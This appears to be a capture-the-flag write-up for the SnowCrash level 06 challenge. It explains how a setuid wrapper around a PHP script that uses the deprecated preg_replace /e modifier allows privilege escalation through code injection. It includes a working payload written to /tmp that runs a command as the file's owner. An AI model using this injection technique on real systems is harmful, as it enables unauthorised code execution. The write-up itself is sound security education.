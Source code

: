 # LEVEL 06

## Vulnerability & exploit

Deprecated /e regex modifier in script owned by privileged user -> Privilege escalation via PHP code injection

## Initial Context

In our home directory, we have an executable with suid and extended permissions, and a php script allowing us to know that the executable does.

```
level06@SnowCrash:~$ ls -la level06*
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php

level06@SnowCrash:~$ cat level06.php
#!/usr/bin/php
<?php
function y($m) {
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
    }
function x($y, $z) {
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a;
}
$r = x($argv[1], $argv[2]); print $r;
?>
```

## Solving the challenge

In the first function called by the script, we see the use of a regex with /e modifier.
The [official doc](https://www.php.net/manual/en/reference.pcre.pattern.modifiers.php) tells us this modifier is depecrated, and why:

> If this deprecated modifier is set, preg_replace() does normal substitution of backreferences in the replacement string, evaluates it as PHP code, and uses the result for replacing the search string.  
> Caution: Use of this modifier is discouraged, as it can easily introduce remote code execution vulnerabilities.

We now know that we can exploit this by passing our own code, which will be evaluated as PHP code and executed as user flag04, thanks to the suid bit.
For this, our argument should pass the regex test `"/(\[x (.*)\])/e"`, so we know it should respect the form `[x <our program in correct PHP syntax>]`
Additionally, the doc specifies that the argument should respect PHP syntax, so we can look into the [complex syntax](from https://www.php.net/manual/en/language.types.string.php) for parsing variables, which includes examples such as:

```
echo "This is the value of the var named by the return value of getName(): {${getName()}}";
```

Adapting this to our situation, we can combine this information to write `[x {${/`getflag/`}}]` into a file:

```
level06@SnowCrash:~$ echo '[x {${`getflag`}}]' > /tmp/getflag
level06@SnowCrash:~$ cat /tmp/getflag
[x {${`getflag`}}]
```

Note that since our only intent is to exploit the /e regex and not to make the exploited program work, we don't need to look further into the second argument or the y subroutine.
When we run the executable, passing our file as argument:

```
level06@SnowCrash:~$ ./level06 /tmp/getflag
PHP Notice:  Undefined variable: Check flag.Here is your token : XXXXXXXXXXXXXXXXXXXXXXXXX
 in /home/user/level06/level06.php(4) : regexp code on line 1
```
